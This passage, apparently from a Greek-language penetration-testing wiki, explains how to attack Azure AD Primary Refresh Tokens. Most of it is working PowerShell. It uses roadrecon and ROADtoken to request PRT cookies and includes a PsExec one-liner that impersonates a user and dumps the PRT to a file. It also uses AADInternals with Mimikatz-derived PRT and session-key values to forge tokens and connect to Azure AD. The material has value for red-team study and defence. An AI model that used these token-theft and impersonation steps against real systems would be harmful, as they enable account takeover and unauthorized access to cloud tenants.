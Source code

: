 ```powershell
roadrecon auth prt-init
```
Τότε μπορείτε να χρησιμοποιήσετε [**roadtoken**](https://github.com/dirkjanm/ROADtoken) για να αποκτήσετε ένα νέο PRT (τρέξτε το εργαλείο από μια διαδικασία του χρήστη για να επιτεθείτε):
```powershell
.\ROADtoken.exe <nonce>
```
Ως oneliner:

{% code overflow="wrap" %}
```powershell
Invoke-Command - Session $ps_sess -ScriptBlock{C:\Users\Public\PsExec64.exe - accepteula -s "cmd.exe" " /c C:\Users\Public\SessionExecCommand.exe UserToImpersonate C:\Users\Public\ROADToken.exe AwABAAAAAAACAOz_BAD0__kdshsy61GF75SGhs_[...] > C:\Users\Public\PRT.txt"}
```
{% endcode %}

Στη συνέχεια, μπορείτε να χρησιμοποιήσετε το **παραγόμενο cookie** για να **παράγετε tokens** για να **συνδεθείτε** χρησιμοποιώντας Azure AD **Graph** ή Microsoft Graph:
```powershell
# Generate
roadrecon auth --prt-cookie <prt_cookie>

# Connect
Connect-AzureAD --AadAccessToken <token> --AccountId <acc_ind>
```
### Επίθεση - Χρησιμοποιώντας roadrecon

### Επίθεση - Χρησιμοποιώντας AADInternals και ένα διαρρεύσαν PRT

`Get-AADIntUserPRTToken` **λαμβάνει το PRT token του χρήστη** από τον υπολογιστή που είναι συνδεδεμένος στο Azure AD ή Hybrid. Χρησιμοποιεί το `BrowserCore.exe` για να αποκτήσει το PRT token.
```powershell
# Get the PRToken
$prtToken = Get-AADIntUserPRTToken

# Get an access token for AAD Graph API and save to cache
Get-AADIntAccessTokenForAADGraph -PRTToken $prtToken
```
Ή αν έχετε τις τιμές από το Mimikatz μπορείτε επίσης να χρησιμοποιήσετε το AADInternals για να δημιουργήσετε ένα token:
```powershell
# Mimikat "PRT" value
$MimikatzPRT="MC5BWU..."

# Add padding
while($MimikatzPrt.Length % 4) {$MimikatzPrt += "="}

# Decode
$PRT=[text.encoding]::UTF8.GetString([convert]::FromBase64String($MimikatzPRT))

# Mimikatz "Clear key" value
$MimikatzClearKey="37c5ecdfeab49139288d8e7b0732a5c43fac53d3d36ca5629babf4ba5f1562f0"

# Convert to Byte array and B64 encode
$SKey = [convert]::ToBase64String( [byte[]] ($MimikatzClearKey -replace '..', '0x$&,' -split ',' -ne ''))

# Generate PRTToken with Nonce
$prtToken = New-AADIntUserPRTToken -RefreshToken $PRT -SessionKey $SKey -GetNonce
$prtToken
## You can already use this token ac cookie in the browser

# Get access token from prtToken
```